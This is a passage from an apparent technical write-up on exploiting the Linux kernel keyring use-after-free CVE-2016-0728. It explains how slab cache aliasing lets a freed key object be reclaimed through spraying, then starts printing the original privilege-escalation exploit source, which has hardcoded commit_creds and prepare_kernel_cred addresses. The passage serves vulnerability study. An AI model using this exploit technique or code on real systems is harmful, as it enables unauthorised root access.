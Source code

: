 Oops, the `key` object's allocation and releasing is handled by `kmem_cache` of `key_jar`. The first thing comes to me is that we cannot easily allocate another object into the old memory space through famous `sendmsg` spraying and `key_add` spraying. Because only the objects take charge by `key_jar` shall enter into the responded page. Another idea is **physmap spraying**, if the page containing the released `key` is freed by `key_jar` and passed to other `kmem_cache` or can be obtained through `mmap`, we can write malicious content into it. But is too hard as a long time is required even for releasing one in-use `key`, not to mention a total page of `key` objects.

Shame on me, deceived by the Linux memory management system once again... The fact is far simpler than we think.

```c++
void __init key_init(void)
{
	/* allocate a slab in which we can store keys */
	key_jar = kmem_cache_create("key_jar", sizeof(struct key),
			0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
	/* ... */
```

Through dynamic debugging the construction of the `kmem_cache key_jar`, I found that it will be intergrated into existing `kmem_cache kmalloc-192` as *cache alias* optimization is enabled.

> Last time I faced with *cache alias* pitfall is in ping-pong root. I found that the `ping` cache will be intergrated into another cache in 32-bit architecture, which results in a unstable slub states.

It is so lucky that the integrated `kmem_cache` is one of `kmalloc` pools. Thus, it will be quite possible to fetch the released `key` object and fill it with malicious content.

Now we can have a look at the origin exploit code.

```c++
/* $ gcc cve_2016_0728.c -o cve_2016_0728 -lkeyutils -Wall */
/* $ ./cve_2016_072 PP_KEY */

/*修改第二次for循环次数*/
/*调整sleep时间*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <keyutils.h>
#include <unistd.h>
#include <time.h>

#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;

#define STRUCT_LEN (0xb8 - 0x30)
#define COMMIT_CREDS_ADDR (0xffffffff8106df50)
#define PREPARE_KERNEL_CREDS_ADDR (0xffffffff8106e310)

struct key_type {
    char * name;
    size_t datalen;
    void * vet_description;
    void * preparse;
    void * free_preparse;
```